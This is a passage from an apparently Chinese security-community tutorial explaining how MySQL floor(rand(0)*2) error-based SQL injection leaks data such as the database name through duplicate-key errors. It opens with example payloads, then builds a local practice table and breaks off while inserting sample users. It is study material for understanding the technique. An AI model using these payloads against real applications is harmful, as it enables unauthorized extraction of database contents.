 

# sql注入之floor报错注入原理学习 - 先知社区

sql注入之floor报错注入原理学习

- - -

# Floor报错注入原理学习

> Payload一般长这样
> 
> select count(*) from users group by concat(database(),floor(rand(0)*2));  
> select count(*),concat(database(),floor(rand(0)*2)) as x from users group by x;
> 
> > 结果一般长这样
> > 
> > ERROR 1062 (23000): Duplicate entry 'sqli1' for key 'group\_key'

## 前置

### 创建一个表 那就叫users吧

```plain
mysql> create database sqli;
Query OK, 1 row affected (0.02 sec)

mysql> use sqli;
Database changed

mysql> create table users (id int(3),username varchar(100),password varchar(100));
Query OK, 0 rows affected (0.06 sec)

mysql> desc users;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(3)       | YES  |     | NULL    |       |
| username | varchar(100) | YES  |     | NULL    |       |
| password | varchar(100) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.03 sec)
```

### 放几条数据进去

```plain
mysql> insert into users values(1,'admin',md5('123456'));
Query OK, 1 row affected (0.03 sec)

mysql> insert into users values(1,'laolao',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'guairui',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'jiangjiang',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'moss',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'ltpp',md5('12345'));
```